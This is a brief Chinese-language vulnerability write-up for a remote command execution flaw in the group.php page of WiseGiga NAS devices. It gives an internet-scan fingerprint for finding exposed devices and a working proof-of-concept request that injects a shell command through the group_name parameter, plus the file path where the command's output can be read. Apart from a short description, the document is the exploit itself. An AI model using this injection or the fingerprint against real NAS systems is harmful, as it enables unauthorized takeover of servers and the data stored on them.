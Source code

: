 # WiseGiga NAS group.php 远程命令执行漏洞

## 漏洞描述

WiseGiga 是一家销售网络连接存储（NAS ）产品的韩国公司。

WiseGiga NAS group.php文件存在远程命令执行漏洞，攻击者通过发送特定的请求包可以获取服务器权限

## 漏洞影响

```
WiseGiga NAS
```

## 网络测绘

```
app="WISEGIGA-NAS"
```

## 漏洞复现

主页面

![image-20220628113649787](images/202206281144970.png)

验证POC

```
/admin/group.php?memberid=root&cmd=add&group_name=d;id>1.txt
```

![image-20220628114731029](images/202206281147112.png)

```
/admin/1.txt
```

![image-20220628114740534](images/202206281147595.png)
